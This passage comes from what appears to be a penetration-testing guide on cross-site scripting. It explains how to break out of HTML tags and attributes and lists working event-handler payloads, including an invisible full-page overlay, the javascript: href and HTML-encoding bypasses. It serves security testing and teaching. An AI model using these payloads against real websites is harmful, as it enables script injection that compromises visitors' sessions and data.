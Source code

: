 ### Impossible - Dangling Markup

If you just think that **it's impossible to create an HTML tag with an attribute to execute JS code**, you should check [**Danglig Markup** ](../dangling-markup-html-scriptless-injection/)because you could **exploit** the vulnerability **without** executing **JS** code.

## Injecting inside HTML tag

### Inside the tag/escaping from attribute value

If you are in **inside a HTML tag**, the first thing you could try is to **escape** from the tag and use some of the techniques mentioned in the [previous section](./#injecting-inside-raw-html) to execute JS code.\
If you **cannot escape from the tag**, you could create new attributes inside the tag to try to execute JS code, for example using some payload like (_note that in this example double quotes are use to escape from the attribute, you won't need them if your input is reflected directly inside the tag_):

```bash
" autofocus onfocus=alert(document.domain) x="
" onfocus=alert(1) id=x tabindex=0 style=display:block>#x #Access http://site.com/?#x t
```

**Style events**

```python
<p style="animation: x;" onanimationstart="alert()">XSS</p>
<p style="animation: x;" onanimationend="alert()">XSS</p>

#ayload that injects an invisible overlay that will trigger a payload if anywhere on the page is clicked:
<div style="position:fixed;top:0;right:0;bottom:0;left:0;background: rgba(0, 0, 0, 0.5);z-index: 5000;" onclick="alert(1)"></div>
#moving your mouse anywhere over the page (0-click-ish):
<div style="position:fixed;top:0;right:0;bottom:0;left:0;background: rgba(0, 0, 0, 0.0);z-index: 5000;" onmouseover="alert(1)"></div>
```

### Within the attribute

Even if you **cannot escape from the attribute** (`"` is being encoded or deleted), depending on **which attribute** your value is being reflected in **if you control all the value or just a part** you will be able to abuse it. For **example**, if you control an event like `onclick=` you will be able to make it execute arbitrary code when it's clicked.\
Another interesting **example** is the attribute `href`, where you can use the `javascript:` protocol to execute arbitrary code: **`href="javascript:alert(1)"`**

**Bypass inside event using HTML encoding/URL encode**

The **HTML encoded characters** inside the value of HTML tags attributes are **decoded on runtime**. Therefore something like the following will be valid (the payload is in bold): `<a id="author" href="http://none" onclick="var tracker='http://foo?`**`&apos;-alert(1)-&apos;`**`';">Go Back </a>`

Note that **any kind of HTML encode is valid**:
